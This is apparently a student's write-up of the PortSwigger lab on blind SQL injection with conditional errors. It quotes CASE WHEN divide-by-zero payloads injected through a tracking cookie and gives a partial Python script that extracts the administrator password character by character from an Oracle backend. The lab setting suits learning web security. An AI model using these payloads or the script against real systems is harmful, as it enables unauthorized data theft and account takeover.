





# Blind SQL injection with conditional errors

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

## Definition
In the preceding example, suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the CASE expression evaluates to 'a', which does not cause any error. With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

**Confirming the SQL Injection**  
To confirm the SQL injection vulnerability on the application, it was tried in the first place to use the query mentioned in the definition section. But doing this, we got an HTTP error 500 using this technique when the expected behavior should be an HTTP Status 200. This response shows that something is wrong with the application and probably is vulnerable but some work must be done in the SQL payload.
  

  
The second attempt was to use a simple SQL statement, but it still kept returning an error:
  

  
Regarding this, I assumed the database running on the backend was PostgreSQL, but it wasn't. So the next step was to try to identify which database is running on it. PostgreSQL and MySQL had already been eliminated when the simple query was used in the previous step, so the next attempt was a small modification to the SQL statement aimed at Oracle and it worked as shown below:
  


**Exploit**  
With this, a [python script](exploit.py) was created to inject a SQL statement that tries to guess the password character by character, position by position:

```python
# code snippet
PAYLOAD  = """
    ' AND (SELECT CASE WHEN SUBSTR(password, {pos}, 1) = '{char}' THEN TO_CHAR(1/0) ELSE '0' END FROM users WHERE username = '{username}') = '0
""".strip()

for char in string.printable:
    ...
    injection = PAYLOAD.format(pos = counter, char = char, username = USERNAME)
    
    cookies = {
        'TrackingId': f'{COOKIE_TRACK_ID}{injection}',
        'session': COOKIE_SESSION_ID
    }

    response = session.get(url = REMOTE_URL, cookies = cookies)
    
    if response.status_code == 500:
        password += char
        keep_running = True
        print(f'[{char}]', end = '', flush = True)
        break
```
  

  


## Key Words
> sql injection, blind, cookie, python, exploit